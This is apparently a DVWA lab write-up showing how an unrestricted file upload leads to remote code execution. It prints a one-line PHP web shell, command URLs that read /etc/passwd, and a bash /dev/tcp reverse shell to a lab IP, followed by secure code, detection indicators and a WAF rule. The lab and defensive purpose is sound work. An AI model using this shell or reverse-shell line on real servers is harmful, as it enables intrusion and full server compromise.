


# Attack 3 -- File Upload --> Web Shell (RCE)

**DVWA Module:** File Upload  
**Security Level:** Low  
**URL:** `http://localhost/dvwa/vulnerabilities/upload/`  
**MITRE ATT&CK:** T1505.003 -- Server Software Component: Web Shell  
**CVSS v3.1 Score:** 9.8 (Critical)

---

## Objective

Bypass the file upload function to upload a PHP web shell, then use it to execute arbitrary OS commands on the server as the `www-data` user, demonstrating unrestricted file upload leading to Remote Code Execution.

---

## Lab Environment



---

## Step 1 -- Understand the Upload Function

Navigate to DVWA --> File Upload.

The page shows:
```
Vulnerability: File Upload
Choose an image to upload: [Browse...] [No file selected]
[Upload]
```

Note: The module shows `The PHP module GD is not installed` -- this means image validation via GD library is unavailable, making it even easier to upload non-image files at Low security.

---

## Step 2 -- Create the Web Shell

On Kali, create a minimal PHP web shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
```

This shell accepts a `cmd` GET parameter and passes it to the `system()` function, executing it as the web server user.

| Evidence | Screenshot |
|----------|-----------|
| Shell creation | [file-upload-shell-create.png](../screenshots/file-upload-shell-create.png) |

---

## Step 3 -- Upload the Shell

On the DVWA File Upload page:
1. Click **Browse**
2. Select `shell.php`
3. Click **Upload**

At Low security, there is no file type validation. The server accepts any file extension.

Upload success message:
```
../../hackable/uploads/shell.php succesfully uploaded!
```

---

## Step 4 -- Execute Commands via Web Shell

Access the uploaded shell directly:

```
http://localhost/dvwa/hackable/uploads/shell.php?cmd=whoami
```

Output:
```
www-data
```

### Command Examples

| Command | URL | Output |
|---------|-----|--------|
| `whoami` | `?cmd=whoami` | `www-data` |
| `id` | `?cmd=id` | `uid=33(www-data) gid=33(www-data) groups=33(www-data)` |
| `cat /etc/passwd` | `?cmd=cat%20/etc/passwd` | Full passwd file |
| `ls /var/www/html` | `?cmd=ls%20/var/www/html` | Web directory listing |
| `uname -a` | `?cmd=uname%20-a` | Kernel version |

---

## Step 5 -- Reverse Shell (Optional Escalation)

Start a listener:
```bash
nc -lvnp 4444
```

Execute via web shell:
```
?cmd=bash -i >& /dev/tcp/10.0.3.15/4444 0>&1
```

This upgrades from a simple command execution to an interactive reverse shell.

### Full Attack Chain



---

## Why This Works

At Low security DVWA performs no validation on uploaded files:
- No MIME type check
- No extension whitelist
- No file content inspection
- No file size limits

The file is stored directly in the web-accessible `/hackable/uploads/` directory and Apache executes `.php` files automatically.

### Vulnerable Code Pattern
```php
// UNSAFE: No validation
$target = "../../hackable/uploads/" . basename($_FILES['file']['name']);
move_uploaded_file($_FILES['file']['tmp_name'], $target);
```

### Secure Code
```php
// SAFE: Validate file type, extension, content, and location
$allowed = ['image/jpeg', 'image/png', 'image/gif'];
$ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));

if (!in_array($file['type'], $allowed) || !getimagesize($file['tmp_name'])) {
    die('Invalid file type');
}

if ($ext !== 'jpg' && $ext !== 'png' && $ext !== 'gif') {
    die('Invalid file extension');
}

// Store outside web root
$target = '/var/uploads/' . uniqid() . '_' . basename($file['name']);
```

---

## Finding Summary

| Field | Detail |
|-------|--------|
| **Vulnerability** | Unrestricted File Upload |
| **Location** | `/vulnerabilities/upload/` endpoint |
| **Root Cause** | No file type, extension, or content validation |
| **Impact** | Remote Code Execution as `www-data`; full server compromise |
| **Shell Payload** | `<?php system($_GET["cmd"]); ?>` |
| **Upload Path** | `/var/www/html/dvwa/hackable/uploads/` |
| **CVSS v3.1** | 9.8 (Critical) |
| **MITRE ATT&CK** | T1505.003 -- Web Shell |

---

## Detection

See [detections/webshell-detection.yml](../detections/webshell-detection.yml) for the Sigma rule.

### SIEM/Monitoring Indicators
- POST requests to upload endpoints with `.php`, `.phtml`, `.php5` filenames
- GET requests to upload directories containing `cmd=` or `exec=` parameters
- Unusual processes spawned by `www-data` (e.g. `bash`, `nc`, `python`)
- Outbound connections from the web server process to unexpected hosts
- File uploads exceeding normal image file sizes (> 5MB)

### WAF Rules
```
# Example ModSecurity rule
SecRule FILES_NAMES "@rx \.(php|phtml|php5|phar)$"
    "id:1002,deny,status:403,msg:'PHP Upload Blocked'"
```
